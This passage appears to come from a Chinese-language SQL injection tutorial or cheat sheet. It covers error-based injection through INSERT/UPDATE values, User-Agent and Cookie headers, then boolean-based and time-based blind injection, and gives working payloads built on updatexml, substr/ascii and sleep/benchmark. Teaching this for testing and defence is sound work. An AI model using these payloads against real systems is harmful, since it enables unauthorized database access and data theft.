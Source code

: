     *   **INSERT/UPDATE 语句报错注入:**
        *   如果注入点在 `INSERT INTO ... VALUES (...)` 或 `UPDATE ... SET col=...` 的值部分。
        *   示例: `INSERT INTO logs (message) VALUES ('Error from user: k' or updatexml(1,concat(0x7e,(select user()),0x7e),1) or'')`
    *   **HTTP头/Cookie 报错注入:**
        *   示例 (User-Agent): `User-Agent: Mozilla' or updatexml(1,concat(0x7e,database()),0) or '`
        *   示例 (Cookie): `Cookie: ant[uname]=admin' and updatexml(1,concat(0x7e,database()),0) #`

3.  **布尔盲注 (Boolean-based Blind):**
    *   **概述:** 当注入点不能直接回显数据或错误信息，但根据SQL查询逻辑真假会返回两种不同的页面响应（例如，“登录成功”/“登录失败”，“用户存在”/“用户不存在”，或者仅仅是页面内容的微小差异）。攻击者通过构造一系列逻辑判断的SQL语句，逐个字符地推断信息。
    *   **常用函数:**
        *   `length(str)`: 获取字符串长度。
        *   `substr(str, pos, len)` / `substring(str, pos, len)` / `mid(str, pos, len)`: 截取子串。
        *   `ascii(char)` / `ord(char)`: 获取字符的ASCII码。
        *   `strcmp(str1, str2)`: 比较字符串。
        *   `if(condition, true_expr, false_expr)`: (也可用于时间盲注)。
    *   **Payload 示例 (假设注入点 `id='...'`):**
        ```sql
        -- 判断是否存在注入 (响应是否不同)
        id=1' and 1=1 #  (真)
        id=1' and 1=2 #  (假)
        -- 猜解数据库名长度
        id=1' and length(database()) = 5 # (如果长度为5则返回真响应)
        id=1' and length(database()) > 5 # (判断长度范围)
        -- 猜解数据库名第一个字符的ASCII码
        id=1' and ascii(substr(database(),1,1)) = 112 # (判断是否为 'p')
        id=1' and ascii(substr(database(),1,1)) > 100 # (判断范围)
        -- 猜解数据库名第一个字符 (直接比较)
        id=1' and substr(database(),1,1) = 'p' #
        ```
    *   **自动化:** 由于过程繁琐，通常使用工具如 Burp Suite Intruder 或 SQLMap 进行自动化猜解。

4.  **时间盲注 (Time-based Blind):**
    *   **概述:** 最“盲”的一种注入方式。无论SQL查询真假，页面都返回完全相同的响应，无法通过内容或状态码判断。攻击者通过注入条件性的延时函数（如 `sleep()` 或 `benchmark()`），如果条件为真，则数据库执行延时操作，导致HTTP响应时间显著增加。通过测量响应时间来判断条件的真假。
    *   **常用函数:**
        *   `sleep(seconds)` (MySQL, PostgreSQL): 使数据库暂停指定秒数。
        *   `pg_sleep(seconds)` (PostgreSQL)
        *   `WAITFOR DELAY '0:0:5'` (MSSQL): 延迟5秒。
        *   `dbms_lock.sleep(seconds)` (Oracle): 延迟。
        *   `benchmark(count, expr)` (MySQL): 重复执行表达式 `count` 次，造成CPU负载和时间延迟。
        *   `if(condition, true_expr, false_expr)`: 结合延时函数使用。
    *   **Payload 示例 (MySQL):**
        ```sql
        -- 判断是否存在注入 (如果存在，页面延迟5秒)
        id=1' and if(1=1, sleep(5), 0) #
        -- 猜解数据库名第一个字符的ASCII码
        id=1' and if(ascii(substr(database(),1,1)) = 112, sleep(5), 0) #
        -- 使用 benchmark 制造延迟
        id=1' AND if(substr(database(),1,1)='p', benchmark(5000000, MD5('A')), 0) #
        ```

